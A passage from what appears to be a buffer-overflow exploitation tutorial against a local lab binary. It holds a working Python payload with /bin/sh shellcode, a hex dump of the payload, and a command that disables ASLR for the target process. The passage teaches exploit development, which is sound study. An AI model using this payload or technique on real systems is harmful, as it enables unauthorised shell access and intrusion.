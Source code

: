 ```sh
2fb5cad2ba0574d4ac536518b463de6ed4846e8f4dfa635910b71d7c1cdcc757  eggshell2
```

As you can see, the raw bytes of Python's print output is a mess and the hash values are not the same.
Hence, Python's print function should not be used
But, this can be fixed by using a standard library output.
The updated code is now:

```python
import sys
OFFSET      = b"\x41"
EIP         = b"\x18\xcd\xff\xff"
NOP         = b"\x90"
SHELLCODE   = b"\x31\xc0\x31\xdb\xb0\x06\xcd\x80\x53\x68/tty\x68/dev\x89\xe3\x31\xc9\x66\xb9\x12\x27\xb0\x05\xcd\x80\x31\xc0\x50\x68//sh\x68/bin\x89\xe3\x50\x53\x89\xe1\x99\xb0\x0b\xcd\x80"

exploit     = OFFSET * 12 + EIP + NOP*4 + SHELLCODE

sys.stdout.buffer.write(exploit)
```

Checking it once again:

```sh
$ python exploit2.py > eggshell2 && xxd eggshell2
00000000: 4141 4141 4141 4141 4141 4141 18cd ffff  AAAAAAAAAAAA....
00000010: 9090 9090 31c0 31db b006 cd80 5368 2f74  ....1.1.....Sh/t
00000020: 7479 682f 6465 7689 e331 c966 b912 27b0  tyh/dev..1.f..'.
00000030: 05cd 8031 c050 682f 2f73 6868 2f62 696e  ...1.Ph//shh/bin
00000040: 89e3 5053 89e1 99b0 0bcd 80              ..PS.......

$ sha256sum eggshell eggshell2
b0200afddf57b3321ec88b73cddd7d7118fbac8cb8f9c8f781d3b1a0053367cd  eggshell
b0200afddf57b3321ec88b73cddd7d7118fbac8cb8f9c8f781d3b1a0053367cd  eggshell2
```

Both shellcodes are now equal.

Python can now be used to exploit the vulnerable binary:

```sh
$ python exploit.py | ./vuln
```

This is done by piping Python's output to the input of the program.
However, this would not work and would cause an illegal instruction error:

```sh
[1]    1090485 done                              python exploit2.py |
       1090486 segmentation fault (core dumped)  ./vuln
```

This is because of ASLR randomizing the memory allocations everytime the program is run.
To disable ASLR without disabling the system's protection, one can do this:

```sh
$ python exploit.py | setarch $(uname -m) -R ./vuln
```
